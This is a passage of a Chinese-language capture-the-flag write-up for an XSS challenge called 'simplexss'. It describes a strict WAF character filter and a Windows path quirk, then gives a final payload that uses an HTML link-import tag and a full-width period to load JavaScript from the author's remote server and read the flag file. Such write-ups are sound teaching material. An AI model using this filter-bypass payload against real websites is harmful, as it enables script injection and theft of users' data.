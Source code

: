 get flag

# simplexss #

这个题目说实话有点儿难的，最后是被window的一个特性坑，waf过滤稍微有点儿过分，fuzz一发，可显字符只剩下

```
*+-<=\^_|~
```

无意中测试出来`\\1931235898`-->对应的ip

![image_1bbnm3785lrg1k0pe0iu4b8ij45.png-49.3kB][10]

但script不会执行，因为script没办法闭合，所以只能想别的办法

这里想到的解决办法是link的import属性，是h5新提出来的特性，用来加载模板，我们可以通过插入link标签远程import我的页面，执行js。

跨域的问题很好解决，只要在自己的服务器设置，响应头为

```
access-control-allow-origin: *
```

这里有个大坑，在windows下`//`是有特殊意义的，会被解析为`file://`，而在firefox和非windows下的chrome，这里会被解析为和主站相同的协议，也就是https协议.

事实上，后台是mac...好像是个真的电脑...也就是说，如果是自签名证书，浏览器会直接拦截，而ip是不能被颁发证书的。

所以我们必须绕过点的限制，引入一个https站下的资源，这里可以用中文的句号

最终payload为
```
<link rel=import hred=\\xss。lt
```

执行js读取flag.php就好了




  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/i6r7eapfqxz18e7frsexxp6d/image_1bbm7t6mv1lckjf7m4o10tq1s81g.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9cbjbavbdg59k7lbzdt882ct/image_1bbm7tqmjkb011vho2e19mg1j7mt.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/fcsi2y6azh4w2cn1hi7vsaox/image_1bbm7umpc158d118d1elc3i71j6g1a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/7iglrk439xnneps9zyt0bje8/image_1bbm81fi31ic413d1vkjuad4q1n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/d7oo6ll6tzhoxhpi9s0ya4ge/image_1bbm867761jslt3s60i1punqj324.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/0fo4y89aul236z6zeq20vzl1/image_1bbnj20hv1tirtiq1ec7vrc2k22h.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/hr86wmm3mehab6nubr7q2219/image_1bbnj670k1kjd1fih1khj1oegq6n2u.png
  [8]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/ugwkm2dhr9wyfcpa0ohocu31/image_1bbnj81aj1i95ua2ea91c3s5rq3b.png
  [9]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/wscz7k86wuyba78gi9ev4yc6/image_1bbnjg0gu18an1nn2dhm7bd1b4h3o.png
  [10]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/571vkxvwy40jemssd8kccqry/image_1bbnm3785lrg1k0pe0iu4b8ij45.png